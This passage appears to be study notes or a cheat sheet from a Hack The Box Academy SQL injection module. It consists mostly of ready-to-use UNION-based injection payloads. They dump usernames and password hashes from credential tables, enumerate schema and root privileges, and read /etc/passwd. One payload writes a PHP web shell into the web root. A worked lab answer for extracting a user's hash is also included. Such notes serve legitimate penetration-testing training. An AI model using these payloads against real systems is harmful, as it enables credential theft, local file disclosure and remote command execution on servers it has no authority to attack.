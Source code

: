 | `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |

>What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?  

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```  

>Placing the database name infront of the table name, `ilfreight.users` to extract the specific columns `username,password`.  
```
cn' UNION select 1,username,password,4 from ilfreight.users-- -
```  

![sqli-data-extract](/images/sqli-data-extract.png)  


| **Payload**   | **Description**   |
| --------------|-------------------|
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user running SQL service queries on web application. [Union Injection](https://academy.hackthebox.com/module/33/section/216) |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges [User Privileges](https://academy.hackthebox.com/module/33/section/792) |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |



| **Payload**   | **Description**   |
| --------------|-------------------|
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory.[Writing Files-creating a Web Shell on target](https://academy.hackthebox.com/module/33/section/793) |
